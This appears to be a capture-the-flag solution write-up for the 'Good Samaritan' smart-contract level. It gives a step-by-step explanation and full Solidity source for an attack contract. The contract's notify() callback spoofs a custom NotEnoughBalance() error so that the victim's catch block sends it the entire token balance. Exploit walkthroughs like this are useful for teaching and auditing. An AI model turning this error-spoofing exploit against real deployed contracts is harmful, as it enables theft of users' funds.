 1. Attacker creates `GoodSamaritanAttack` contract providing the address of the `GoodSamaritan` contract.
2. Attacker calls the `attack()` function in the `GoodSamaritanAttack` contract that is invoking `requestDonation` on `GoodSamaritan` contract. The code proceeds to execute the `wallet.donate10(msg.sender)` function call.
3. The `donate10` function utilizes the `transfer` function from the `Coin` contract.
4. The `coin.transfer()` function performs calculations, verifies if `GoodSamaritanAttack` address is a contract, and then triggers a `notify()` function on `GoodSamaritanAttack` address.
5. Attacker creates `notify()` function in `GoodSamaritanAttack` contract to revert with a custom error named `NotEnoughBalance()`. When this error is triggered in the `GoodSamaritan` `requestDonation()` function, the `catch()` block will activate, transferring all tokens to `GoodSamaritanAttack`contract using `transferRemainder` function. But function will revert only if attacker included an additional condition to check if the amount is less than or equal to 10.

## Malicious contract (GoodSamaritanAttack.sol)

```solidity
// SPDX-License-Identifier: MIT
pragma solidity >=0.8.0 <0.9.0;

import "./GoodSamaritan.sol";

contract GoodSamaritanAttack is INotifyable {
    GoodSamaritan victimContract;

    error NotEnoughBalance();

    // 1. Attacker creates `GoodSamaritanAttack` contract providing the address of the `GoodSamaritan` contract.
    constructor(address _victimContract) {
        victimContract = GoodSamaritan(_victimContract);
    }

    // 2. Attacker calls the `attack()` function in the `GoodSamaritanAttack` contract that is invoking `requestDonation` on `GoodSamaritan` contract. The code proceeds to execute the `wallet.donate10(msg.sender)` function call.
    // 3. The `donate10` function utilizes the `transfer` function from the `Coin` contract.
    function attack() public {
        victimContract.requestDonation();
    }

    // 4. The `coin.transfer()` function performs calculations, verifies if `GoodSamaritanAttack` address is a contract, and then triggers a `notify()` function on `GoodSamaritanAttack` address.
    // 5. Attacker creates `notify()` function in `GoodSamaritanAttack` contract to revert with a custom error named `NotEnoughBalance()`. When this error is triggered in the `GoodSamaritan` `requestDonation()` function, the `catch()` block will activate, transferring all tokens to `GoodSamaritanAttack`contract using `transferRemainder` function. But function will revert only if attacker included an additional condition to check if the amount is less than or equal to 10.
    function notify(uint256 amount) external {
        if (amount <= 10) {
            revert NotEnoughBalance();
        }
    }
}

```

